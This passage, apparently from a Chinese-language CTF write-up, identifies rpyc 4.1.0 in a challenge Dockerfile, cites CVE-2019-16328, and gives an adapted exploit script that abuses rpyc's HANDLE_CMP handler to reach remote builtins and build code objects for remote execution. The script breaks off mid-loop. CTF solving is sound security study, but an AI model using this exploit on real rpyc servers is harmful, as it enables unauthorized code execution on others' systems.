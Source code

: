 可以从dockerfile中看到`RUN pip install --no-cache rpyc==4.1.0`证明`rpyc`是`4.1.0`版本的

通过搜索其对应的github页面可以看到相关的`Security`

![](https://imgur.com/R3HercF.png)

![](https://imgur.com/Ao8INjh.png)

https://github.com/tomerfiliba-org/rpyc/security/advisories/GHSA-pj4g-4488-wmxm

需要利用`CVE-2019-16328`

上述链接中提供了一个PoC，但并不能直接利用。其中的`get_code`函数与题目环境使用的Python版本不匹配，无法生成可用的函数。查阅相关Typing进行修改并得到如下最终的exp脚本:

```py
import rpyc
from types import CodeType

conn = rpyc.connect("localhost", 1337)

def myeval(self=None, cmd="__import__('sys')"):
  return eval(cmd)

"""
__argcount: int,
__posonlyargcount: int,
__kwonlyargcount: int,
__nlocals: int,
__stacksize: int,
__flags: int,
__codestring: bytes,
__constants: tuple[object, ...],
__names: tuple[str, ...],
__varnames: tuple[str, ...],
__filename: str, __name: str,
__qualname: str,
__firstlineno: int,
__linetable: bytes,
__exceptiontable: bytes, __freevars: tuple[str, ...] = ..., __cellvars: tuple[str, ...] = ...
"""
def get_code(obj_codetype, func, filename=None, name=None):
  func_code = func.__code__
  mycode = obj_codetype(func_code.co_argcount, func_code.co_posonlyargcount, func_code.co_kwonlyargcount, func_code.co_nlocals, func_code.co_stacksize, func_code.co_flags, func_code.co_code, func_code.co_consts, func_code.co_names, func_code.co_varnames, func_code.co_filename, func_code.co_name, func_code.co_qualname, func_code.co_firstlineno, func_code.co_linetable, func_code.co_exceptiontable, func_code.co_freevars, func_code.co_cellvars)
  return mycode

def netref_getattr(netref, attrname):
  # PoC CWE-358: abuse __cmp__ function that was missing a security check
  handler = rpyc.core.consts.HANDLE_CMP
  return conn.sync_request(handler, netref, attrname, '__getattribute__')

remote_svc_proto = netref_getattr(conn.root, '_protocol')
remote_dispatch = netref_getattr(remote_svc_proto, '_dispatch_request')
remote_class_globals = netref_getattr(remote_dispatch, '__globals__')
remote_modules = netref_getattr(remote_class_globals['sys'], 'modules')
_builtins = remote_modules['builtins']
remote_builtins = {k: netref_getattr(_builtins, k) for k in dir(_builtins)}

print("populate globals for CodeType calls on remote")
remote_globals = remote_builtins['dict']()
for name, netref in remote_builtins.items():
    remote_globals[name] = netref
for name, netref in netref_getattr(remote_modules, 'items')():
```